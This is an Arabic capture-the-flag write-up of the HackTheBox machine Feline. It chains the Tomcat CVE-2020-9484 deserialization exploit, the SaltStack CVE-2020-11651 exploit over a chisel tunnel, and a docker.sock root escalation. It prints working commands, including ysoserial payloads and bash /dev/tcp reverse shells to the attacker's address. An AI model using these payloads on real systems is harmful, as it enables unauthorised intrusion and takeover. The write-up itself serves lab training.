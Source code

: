 

 ![Desktop View](/img/fl/0.png)


_Sammmry:_

```
htbتحدي صعب من Feline
 نجد في البداية ان السيرفر
Cve 2020-9484 مصاب ب 
  user نقوم باستغلالها للحصول على      
CVE-2020-11651  ثم نستغل  
docker.sock  ثم نجد في
برفع root نتمكن من الحصول على.bash_history docker binary
```

- Sammmry
- 1 Enumeration
   - 1.1 Nmap
   - 1.2 Port
   - 1.3 Cve 2020-9484
- 2 user
   - 2.1 Tomcat shell
   - 2.2 CVE- 2020-11651
      - 2.2.1 port forwarding with chisel
- 3 User.txt
- 4 Root privilege escalation
   - 4.1 .bash hisroty
   - 4.2 docker


## 1 Enumeration

### 1.1 Nmap

nmap نبدا بفحص البورتات باستخدام


![Desktop View](/img/fl/1.png)


### 1.2 Port


8080  نجد بورت 

![Desktop View](/img/fl/2.png)

### 1.3 Cve 2020-9484


cve- 2020 - 9484 بعد فحص السيرفر نجد انه مصاب ب


https://www.redtimmy.com/java-hacking/apache-tomcat-rce-by-deserialization-cve-2020-9484-write-up-and-exploit/

payload:
```
filename=$(cat /dev/urandom | tr -dc 'a-zA-Z0-9' | fold -w 32 | head -n 1)
java -jar ysoserial.jar CommonsCollections4 "bash -c {echo,$(echo -n bash -c 'bash
-i >& /dev/tcp/10.10.14.212/5555 0>&1' | base64)}|{base64,-d}|{bash,-i}" >
/tmp/$filename.session
curl -s -F "data=@/tmp/$filename.session"
http://10.10.10.205:8080/upload.jsp?email=test@mail.com > /dev/null
curl -s http://10.10.10.205:8080/ -H "Cookie:
JSESSIONID=../../../../../../../../../../opt/samples/uploads/$filename" > /dev/null
```

: من هنا ysoserial حمل

https://github.com/frohoff/ysoserial

ncونشغل ysoerial في مجلد payload نقوم بوضع



![Desktop View](/img/fl/3.png)
## 2 user

### 2.1 Tomcat shell


tomcat بصلاحيات shell حصلنا على

![Desktop View](/img/fl/4.png)

 نكتب الامر التالي لنرى البورتات المفتوحة في الجهاز
```
netstat –plant
```

 ![Desktop View](/img/fl/4.2.png)
### 2.2 CVE-2020-11651

 و 4505port 4506 نجد 


مفتوحين عند البحث في جوجل نكتشف 

rce وهو مصاب ب SaltStack ان هذه البورتات خاصة ب



نقوم بتحميل الاستغلال من هنا


https://github.com/jasperla/CVE-2020-11651-poc/blob/master/exploit.py

### 2.2.1 port forwarding with chisel


4506 portل port forwardingمن اجل chisel نجهز


## 3 User.txt


الخاص بنا localhost اي نحوله الى

على السيرفر chisel نقوم برفع

```
sudo python -m SimpleHTTPServer 80
wget http://10.10.14.212/chisel

```
 ![Desktop View](/img/fl/5.png)

نكتب الامر التالي في جهازنا chisel بعد رفع
```
./chisel server -p 5556 --reverse -v
```
: ونكتب الامر التالي في السيرفر
```
./chisel client 10.10.14.212:5556 R:4506:127.0.0.1:

```
 ![Desktop View](/img/fl/6.png)

الان نقوم ب الاستغلال

على جهازك nc شغل
```
nc –lnvp 8080
```

```
python3 exploit.py --master 127.0.0.1 --exec 'bash -c "bash -i >&
/dev/tcp/10.10.14.212/8080 0>&1"'
```
 10.10.14.212 غير

الخاص بك ip الى ال


 ![Desktop View](/img/fl/7.png)


## 4 Root privilege escalation

### 4.1 .bash hisroty

.bash_history نجد في


curl -s --unix-socket /var/run/docker.sock http://localhost/images/json

### 4.2 docker

على السيرفر docker binary نقوم برفع

يمكنك تحميله من هنا

https://download.docker.com/linux/static/stable/x86_64

 ![Desktop View](/img/fl/8.png)


rootثم نكتب الاومر التالية لنحصل على
```
docker images
./docker run -v /root/:/mnt -it sandbox
```

 ![Desktop View](/img/fl/9.png)


